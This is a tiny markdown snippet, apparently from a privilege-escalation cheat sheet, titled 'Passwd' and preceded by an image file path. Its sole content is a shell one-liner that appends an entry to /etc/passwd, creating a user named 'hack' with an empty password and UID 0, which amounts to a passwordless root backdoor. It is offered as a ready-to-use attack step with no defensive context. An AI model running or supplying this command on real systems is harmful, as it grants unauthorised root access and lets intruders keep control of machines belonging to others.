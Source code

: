 # Passwd

## /etc/passwd make a new user with no password

`echo "hack::0:0:,,,:/root:/bin/sh" >> /etc/passwd`


